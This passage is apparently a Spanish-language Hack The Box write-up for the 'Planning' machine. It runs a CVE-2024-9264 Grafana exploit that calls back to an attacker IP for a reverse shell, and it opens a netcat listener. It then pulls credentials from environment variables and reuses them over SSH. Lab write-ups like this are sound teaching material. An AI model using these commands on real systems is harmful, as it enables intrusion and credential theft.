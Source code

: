 ```bash
python3 poc.py --url http://grafana.planning.htb --user admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.126 --reverse-port 9001
```

**Qué hice y por qué:**
- Usé `python3 poc.py` para ejecutar el exploit escrito en Python.
- `--url http://grafana.planning.htb`: Apunté al subdominio de Grafana descubierto.
- `--user admin --password 0D5oT70Fq13EvB5r`: Credenciales iniciales proporcionadas por HTB, necesarias para autenticarse en Grafana.
- `--reverse-ip 10.10.14.126 --reverse-port 9001`: Configuré la máquina atacante para recibir una **reverse shell** una vez que el exploit se ejecuta exitosamente.

El objetivo era aprovechar la vulnerabilidad del CVE-2024-9264 para obtener acceso remoto a la máquina objetivo mediante una reverse shell, abriendo así la puerta a la fase de post-explotación.

Para recibir la conexión de la reverse shell generada por el exploit, ejecuté en mi máquina atacante una escucha por el puerto 9001:

```bash
nc -lvnp 9001
```

Tras ejecutar el exploit correctamente, obtuve una **reverse shell** desde la máquina víctima, lo que confirmó que la vulnerabilidad era explotable y me permitió interactuar directamente con el sistema.

![[Pasted image 20250915130215.png]]

Tras recibir la reverse shell, comprobé el entorno para entender el contexto y buscar credenciales o información sensible. El primer comando que ejecuté fue:

```bash
env
```

`env` lista las variables de entorno del proceso. Muchas aplicaciones (especialmente servicios web, contenedores o procesos gestionados) almacenan credenciales, URIs de bases de datos o tokens en variables de entorno. Revisarlas rápidamente puede revelar credenciales reutilizables o puntos de acceso a otros servicios.

En la imagen podemos ver que encontramos un usuario **admin** llamado `enzo` y una **password** `RioTecRANDEntANT!`. Sabiendo esto, voy a conectarme mediante ssh.

```bash
ssh enzo@planning.htb
```

Una vez dentro, solo hay que buscar y obtenemos la primera user flag.

![[Pasted image 20250915134744.png]]

Una vez dentro, voy a ver los servicios activos. Para entender qué servicios estaban corriendo en la máquina víctima y hacia dónde podía moverme, ejecuté:

```bash
netstat -tulnp
```
